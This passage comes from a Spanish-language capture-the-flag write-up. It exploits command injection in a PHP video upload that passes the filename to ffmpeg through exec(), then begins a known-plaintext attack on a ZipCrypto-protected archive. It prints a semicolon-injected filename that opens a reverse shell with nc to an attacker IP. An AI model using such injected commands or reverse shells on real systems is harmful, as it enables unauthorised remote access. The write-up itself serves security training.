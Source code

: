 
Como vemos primero mira si es una petición `POST`, en el caso de que sí lo sea continua y define unas variables. Vemos que también mide el tamaño, por lo que si es muy grande dará error.

Ahora bien, si bajamos lo suficiente veremos lo siguiente:

```
exec("ffmpeg -i upload_videos/$filename converted_videos/$filename_without_ext.mp4");
```

Como vemos está utilizando la función `exec` para ejecutar un comando en la propia consola. Vemos que está utilizando `FFMPeg` y que le pasa el archivo `input`, y el `output` es el nombre del archivo sin extensión. Como el nombre del archivo está utilizando `;` podemos concatenar comandos. La instrucción final quedaría así:

```
ffmpeg -i upload_videos/shell.avi;nc -c bash 192.168.1.104 4444;shell.avi converted_videos/shell.mp4
```

Bien! Ya tenemos una Shell como `www-data`! Ya podemos irnos a la carpeta mencionada con anterioridad y descargarnos el `ZIP`.

### Shell
Bien, ya tenemos el `ZIP` en nuestra máquina, pero si lo intentamos descomprimir veremos que nos pide una contraseña, por desgracia no es la misma que habíamos encontrado. Gracias a `7z` podemos ver datos de los archivos: tamaño, comentarios, método, etcétera.

- `7z l -slt mydata_archive.zip `

```Ruby
[...]
Path = 404.html
Folder = -
Size = 919
Packed Size = 931
Modified = 2022-09-28 02:09:09
Created = 2022-10-01 02:55:11
Accessed = 2022-10-01 02:54:27
Attributes = _ -rw-r--r--
Encrypted = +
Comment = 
CRC = 6F47B605
Method = "ZipCrypto Store"
Host OS = Unix
Version = 20
Volume Index = 0
[...]
```

Vemos un fichero llamado `404.html`, dicho fichero está en la máquina víctima y podemos verlo en la propia web, por lo que nos creamos un archivo llamado `plain_text` (en mi caso) y meteremos una string que sepamos que existe, en mi caso utilizé: `<!DOCTYPE html>`.

- `echo "<!DOCTYPE html>" > plain_text`

Una vez hecho esto vamos a comprimir el archivo en un `ZIP`, para esto haremos lo siguiente:
